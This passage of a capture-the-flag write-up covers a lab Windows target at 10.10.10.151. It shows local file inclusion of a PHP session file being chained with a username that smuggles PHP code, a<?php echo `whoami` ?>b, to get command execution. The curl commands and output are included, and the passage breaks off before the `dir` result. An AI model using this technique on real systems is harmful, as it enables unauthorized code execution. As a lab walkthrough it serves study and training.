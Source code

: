 
### path 1 - LFI

#### RCE

Having found the LFI above, I start to think about where I could write a file
on disk. One place is the PHP session file for the `/user/` site. The [default
location on Windows](https://stackoverflow.com/questions/37603993/php-
sessions-default-save-location-for-windows) is `C:\windows\temp\`. I get my
session id from Burp, and see, it’s there:

    
    
    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\windows\temp\sess_8l44h398eccsi698nj5he5k2cr' | tail
    
    </body>
    
    </html>
    username|s:4:"oxdf";</body>
    </html>
    

Next I tried to register as:

    
    
    <?php system("whoami") ?>
    

But when I tried to log in, I get rejected:

![1570739618691](https://0xdfimages.gitlab.io/img/1570739618691.png)

There must be some filtering going on at registration. After some playing
around, I got this username to login:

    
    
    a<?php echo `whoami` ?>b
    

And when I get the session, I can see the results:

    
    
    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\windows\temp\sess_8l44h398eccsi698nj5he5k2cr' | tail
    
    </body>
    
    </html>
    username|s:24:"ant authority\iusr
    b";</body>
    </html>
    

I can now register the following to run a `dir` in the working directory:

    
    
    a<?php echo `dir` ?>b
    

Returns (I’ll just show the part I care about, and cut out the surrounding
html):
